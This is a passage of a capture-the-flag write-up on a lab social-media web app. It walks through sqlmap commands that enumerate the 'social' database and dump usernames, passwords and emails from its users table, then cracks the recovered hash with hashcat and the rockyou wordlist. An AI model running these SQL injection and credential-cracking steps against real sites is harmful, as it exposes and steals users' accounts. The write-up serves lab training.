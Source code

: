 ```console
[*] phpmyadmin
[*] social
[*] sys
```
find out what XXXXX is and you will be fine
## What is Santa Claus' email address?
before doing this task, I would like you to log in to the web app and try out. try to understand what this web app is for and how to it work. 


from the last task, we know that there is 6 databases. the web app is like a social media app so I pick to try to find out what is in side ```social``` database
```console
bibo318@parrot:~$ sqlmap -r day23/login.txt -D social --tables --batch # --tables == get table -D is DBMS database to enumerate
Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+
```
users table looks **juicy**, let get all columns
```console
bibo318@parrot:~/day23$ sqlmap -r login.txt -D social -T users --columms --batch
[12 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| id           | int(11)      |
| password     | varchar(255) |
| email        | varchar(100) |
| first_name   | varchar(25)  |
| friend_array | text         |
| last_name    | varchar(25)  |
| num_likes    | int(11)      |
| num_posts    | int(11)      |
| profile_pic  | varchar(255) |
| signup_date  | date         |
| user_closed  | varchar(3)   |
| username     | varchar(100) |
+--------------+--------------+
```
On the web app when you search for a user in search bar, you can either search for name or username, I already know that Santa's username is ```santa_claus```. Moreover, we need to get his password for next task so lets **dump both password and username**
```console
sqlmap -r login.txt -D social -T users -C username,password,email --batch --dump --threads 3 # -C DBMS database table column(s) to enumerate -dump dump the data --threads is threads to incresse speed (not recomended irl)
```
## What is Santa Claus' plaintext password?
Get the password and use some [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) to find out what hash algorithms is used. let go **hashcat**!!!
```console
bibo318@parrot:~/day23$ hashcat -m 0 -a 0 -o santacrack.txt "putthehashhere" /usr/share/wordlists/rockyou.txt --force
```